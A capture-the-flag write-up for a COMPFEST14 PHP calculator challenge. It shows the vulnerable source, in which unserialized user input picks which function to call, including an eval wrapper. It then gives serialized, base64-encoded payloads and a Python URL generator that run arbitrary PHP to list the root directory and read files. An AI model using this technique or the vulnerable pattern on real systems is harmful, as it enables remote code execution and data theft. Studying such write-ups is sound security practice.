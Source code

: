 ## Overview
After opening the website, we are greeted with a simple calculator (obviously). Lets input ```1 + 2``` to the textbox.

```
Result:
1 + 2 = 3
```
As expected, 1 + 2 does equal to 3. The interesting part of this is the url. 

```103.185.38.238:17227/?input=YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30=```

It has some sort of encrypted input query that I assumed is base64. Let's try to decode the input with this script.

```python
import base64

query = "YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30="
query_b64 = base64.b64decode(query)
print(query_b64.decode("ascii"))
```
After running the script, we got this very interesting data.

```a:3:{i:0;s:3:"sum";i:1;s:1:"1";i:2;s:1:"2";}```

Let's dissect this data.

```
a:3  # Array of length 3
i:0 # Index of the array
s:3 # Size of this index's data
"sum" # The data on this index
```

Okay, that's very insightful. But, this is a web exploitation challenge. Let's look at the PHP of this website since this challenge is tagged PHP.

```php
<?php
function format_error($expre) {
    return "<p><b>Format error:</b> the input is given in wrong format!</p>";
}

function opp_error($expre) {
    return "<p><b>Operator error:</b> operator for ".$expre." is not available!</p>";
}

function sum($a, $b) {
    $result = strval(intval($a) + intval($b));
    return "<p><b>Result:</b><br>".$a." + ".$b." = ".$result."</p>";
}

function sub($a, $b) {
    $result = strval(intval($a) - intval($b));
    return "<p><b>Result:</b><br>".$a." - ".$b." = ".$result."</p>";
}

function mul($a, $b) {
    $result = strval(intval($a) * intval($b));
    return "<p><b>Result:</b><br>".$a." * ".$b." = ".$result."</p>";
}

function div($a, $b) {
    $result = strval(intval($a) / intval($b));
    return "<p><b>Result:</b><br>".$a." / ".$b." = ".$result."</p>";
}

function evalit($code) {
    return eval($code);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
    if (!empty($_GET["input"])) {
        $decoded = base64_decode($_GET["input"]);
        $out = unserialize($decoded);
        if ($out[2] != null) {
            $view = $out[0]($out[1], $out[2]);
            echo $view;
        }
        else {
            $view = $out[0]($out[1]);
            echo $view;
        }
    }
}

?>
```

The ```evalit``` function is definitely the key, since it can allow us to run code. But how can we input something to run the ```evalit``` function?

The ```sum``` function and other math functions have 2 arguments. So to run ```evalit```, we need to find other functions with only one argument. The easiest one to get is probably the ```format_error``` function. 

## Solution
Let's input random stuff and get the input query!

```
a:2:{i:0;s:12:"format_error";i:1;s:4:"asdf";}
```

Woah, the function's name is literally there! So let's just change the fuction name and input and let's see if it works!

```
a:2:{i:0;s:6:"evalit";i:1;s:20:"echo "Hello world!";";}
```

Next step is to encode it to base64 and put it in the url!

```
103.185.38.238:17227/?input=YToyOntpOjA7czo2OiJldmFsaXQiO2k6MTtzOjIwOiJlY2hvICJIZWxsbyB3b3JsZCEiOyI7fQ==
```

And voila! The hello world is there. Now what? Well, the description said there is some interesting stuff in root. So let's go there!
Let's scan the root directory using the ```scandir()``` syntax.

To make this easier, I created a python script to generate the url.

```python
import base64

payload = "echo join(', ', scandir('/'));"
query = "a:2:{i:0;s:6:\"evalit\";i:1;s:" + str(len(payload)) + ":\"" + payload + "\";}"
query_b64 = query.encode("ascii")
query_b64 = base64.b64encode(query_b64)
print(query)
print("103.185.38.238:17227/?input=" + query_b64.decode("ascii"))
```

After that, let's look at the output!
```., .., .dockerenv, Hey.txt, Heyhey.txt, Heyheyhey.txt, Heyheyheyhey.txt, bin, boot, dev, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var```

We see some txt files in there. It could be the flag! Let's try one of them.
Let's change the payload.

```
payload = "echo file_get_contents('/Hey.txt');"
Output: Sorry, wrong guy :v 
```

Bruh, let's try the next one.

```
payload = "echo file_get_contents('/Heyhey.txt');"
Output: Hai! Hai! (^_^)  
```

Still not it, the next one maybe?

```
payload = "echo file_get_contents('/Heyheyhey.txt');"
Output: COMPFEST14{welcome_to_the_root} 
```

And just like that, the flag is found!

##### solved by kawijayaa
